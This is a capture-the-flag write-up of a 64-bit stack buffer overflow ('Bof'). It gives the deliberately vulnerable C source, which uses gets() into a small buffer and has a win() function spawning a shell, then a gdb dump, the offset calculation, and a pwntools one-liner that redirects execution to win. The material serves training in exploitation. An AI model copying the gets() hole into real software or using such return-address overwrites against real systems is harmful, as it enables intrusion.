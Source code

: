 # Bof : 

Challenge description : ```A Simple bof for you!```

* Given source code : 
```
#include<stdio.h>
#include <unistd.h>
int win(){
	execve("/bin/sh",NULL,NULL);
}
int initialize(){
	alarm(30);
	setvbuf(stdout,NULL,2,0);
	setvbuf(stdin,NULL,2,0);
}
int main(){
	initialize();
	char buf[24];
	printf("Do you think you've got what it take to kill Thanos ?\n");
	puts("Send it to me then......");
	gets(buf);
	return 0;
}
```
* From the above source code we can see that, all we need to do is call the win function which contains the shell. 

# Gdb dump : 
```
   0x0000000000401230 <+8>:	sub    rsp,0x20
   0x0000000000401234 <+12>:	mov    eax,0x0
   0x0000000000401239 <+17>:	call   0x4011d7 <initialize>
   0x000000000040123e <+22>:	lea    rdi,[rip+0xdcb]        # 0x402010
   0x0000000000401245 <+29>:	call   0x401080 <puts@plt>
   0x000000000040124a <+34>:	lea    rdi,[rip+0xdf5]        # 0x402046
   0x0000000000401251 <+41>:	call   0x401080 <puts@plt>
   0x0000000000401256 <+46>:	lea    rax,[rbp-0x20]
   0x000000000040125a <+50>:	mov    rdi,rax
   0x000000000040125d <+53>:	mov    eax,0x0
   0x0000000000401262 <+58>:	call   0x4010b0 <gets@plt>
   0x0000000000401267 <+63>:	mov    eax,0x0
   0x000000000040126c <+68>:	leave  
   0x000000000040126d <+69>:	ret
   
   ```
 * from the above gdb dump, we can see that stack defined is of size 0x20 or 32 bytes.
 * to overflow eip and call the win function, we may have to give buffer size as 32 + 8 bytes (since its a 64 bit compiled program)
 * address of win function is : ```0x00000000004011b6```  

# Python code : 
```
(python -c "from pwn import *; print('A'*40 + p64(0x00000000004011b6))"; cat) | ./bof.bof
```

